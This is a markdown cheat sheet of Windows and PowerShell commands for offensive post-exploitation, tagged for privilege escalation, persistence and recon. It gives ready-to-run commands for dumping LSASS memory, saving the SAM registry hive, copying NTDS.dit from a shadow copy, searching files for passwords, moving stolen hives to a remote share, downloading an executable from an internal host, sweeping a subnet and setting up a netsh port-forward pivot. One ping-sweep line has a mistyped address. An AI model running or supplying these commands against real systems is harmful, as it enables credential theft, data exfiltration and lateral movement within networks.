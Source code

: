# powershell

#plateform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

## Powershell - List running processes
```
tasklist /svc
```
## Powershell - Search for "password" in files
```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Display LSASS process information
```
Get-Process lsass
```

## Create LSASS memory dump
```
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

## reg.exe - Save a copy of a registry hive
```
reg.exe save hklm\sam C:\sam.save
```

## regsvr32 - Register DLL
```
regsvr32.exe SocksOverRDP-Plugin.dll
```

## Transfer file to a file share
```
move sam.save \\<ip>\NameofFileShare
```

## cmd.exe - Copy NTDS.dit from shadow copy
```
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

## vssadmin - Create volume shadow copy
```
vssadmin CREATE SHADOW /For=C:
```

## Invoke-WebRequest - Download file
```
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

## Discover devices on network (Windows)
```
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

## PowerShell - Ping network segment
```
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}

```
## netsh - Configure portproxy rule
```
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25
```

## netsh - View portproxy rule
```
netsh.exe interface portproxy show v4tov4
```
